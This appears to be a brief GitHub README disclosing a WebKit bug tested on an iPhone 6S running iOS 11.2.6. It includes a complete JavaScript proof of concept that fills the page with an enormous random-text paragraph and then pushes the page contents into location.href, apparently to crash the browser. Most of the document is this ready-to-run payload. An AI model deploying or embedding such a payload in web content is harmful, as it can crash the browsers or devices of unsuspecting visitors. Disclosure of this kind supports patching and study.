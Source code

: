 # WebKit jump to address 0 via DOM nodes + location.href

WebKit has a new vulnerability; and it has been tested on the iPhone 6S (iOS 11.2.6). 

It works by appending a large p tag to the DOM, then flowing the data into location.href. 

PoC (@iHateRa1n):

```javascript
function rndchr(){
    return String.fromCharCode(Math.floor(Math.random()*255));
};
n=1024;
k=document.createElement("p");
l=0;
kl="";
while(l<n){
    kl=kl+rndchr();
    l++;
}
s=document.createTextNode((kl).repeat(16384));
k.appendChild(s);
document.body.appendChild(k);
location.href=document.body.innerHTML;
```

discovered and exploited by @iHateRa1n. 
